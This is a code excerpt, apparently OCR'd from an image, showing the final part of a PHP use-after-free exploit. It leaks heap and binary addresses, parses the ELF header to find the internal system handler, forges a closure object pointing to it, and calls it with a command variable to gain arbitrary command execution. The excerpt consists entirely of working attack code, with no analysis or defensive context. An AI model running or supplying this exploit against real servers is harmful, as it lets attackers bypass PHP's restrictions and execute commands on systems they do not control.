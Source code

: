 ```php
    $v = [];
    $v[0] = ptr2str(0, 79);
    unset($v);
    $abc = $out[2][0];

    $helper = new Helper;
    $helper->b = function ($x) { };

    if(strlen($abc) == 79 || strlen($abc) == 0) {
        die("UAF failed");
    }

    # leaks
    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;

    # fake value
    write($abc, 0x60, 2);
    write($abc, 0x70, 6);

    # fake reference
    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);

    $closure_obj = str2ptr($abc, 0x20);

    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) {
        die("Couldn't determine binary base address");
    }

    if(!($elf = parse_elf($base))) {
        die("Couldn't parse ELF header");
    }

    if(!($basic_funcs = get_basic_funcs($base, $elf))) {
        die("Couldn't get basic_functions address");
    }

    if(!($zif_system = get_system($basic_funcs))) {
        die("Couldn't get zif_system address");
    }

    # fake closure object
    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) {
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }

    # pwn
    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4); # internal func type
    write($abc, 0xd0 + 0x68, $zif_system); # internal func handler

    ($helper->b)($cmd);

    exit();
}
```

